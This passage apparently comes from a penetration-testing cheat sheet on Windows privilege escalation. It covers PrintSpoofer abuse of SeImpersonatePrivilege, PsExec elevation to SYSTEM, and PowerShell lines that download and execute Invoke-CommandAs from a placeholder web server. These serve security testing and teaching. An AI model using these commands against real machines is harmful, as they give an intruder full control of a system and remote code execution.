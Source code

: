 If the `Print Spooler` service is running locally (or can be started),
`PrintSpoofer` can be used to exploit the `SeImpersonatePrivilege` privilege
(tested on `Windows 10` and `Windows Server 2016 / 2019`).

```
# Checks if the Print Spooler service is running.
sc qc Spooler
Get-Service -Name Spooler

# Attempts to start the Print Spooler service.
net start Spooler
Start-Service -Name Spooler

# -i: interactive process. Default is non-interactive.
PrintSpoofer.exe [-i] -c "<cmd.exe | powershell.exe | BINARY_PATH | cmd.exe COMMAND_LINE_ARGUMENTS | ...>"
```

### Local administrator to NT AUTHORITY\SYSTEM

The `LocalSystem` account (associated with the `NT AUTHORITY\SYSTEM` `SID`) is
used by the operating system and by services that run under Windows. It is an
internal account, which does not show up in User Manager and cannot be added to
any security groups. Executing code under the `LocalSystem` account may be
needed in some circumstances (for example to leverage specific privileges
associated with the `LocalSystem` account, such as the `SeTcbPrivilege`
privilege).

The `PsExec` Microsoft signed tool can be used to elevate to `LocalSystem`
from an administrator account (through a Windows service):

```
# -s   Run the remote process in the System account.
# -i   Run the program so that it interacts with the desktop of the specified session on the remote system
# -d   Don't wait for process to terminate (non-interactive).

psexec.exe -accepteula -s -i -d cmd.exe
```

The [`Invoke-CommandAs`](https://github.com/mkellerman/Invoke-CommandAs)
PowerShell cmdlet can also be used to execute code as `LocalSystem` account
(through a Scheduled Task):

```
# Injects the Module in memory.
IEX (New-Object Net.WebClient).DownloadString("http://<WEB_SERVER>/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1")
IEX (New-Object Net.WebClient).DownloadString("http://<WEB_SERVER>/Invoke-CommandAs/Public/Invoke-CommandAs.ps1")

Invoke-CommandAs -AsSystem -ScriptBlock { <POWERSHELL_CODE> }
```

If a `meterpreter` shell is being used, the `getsystem` command can be
leveraged to the same end.
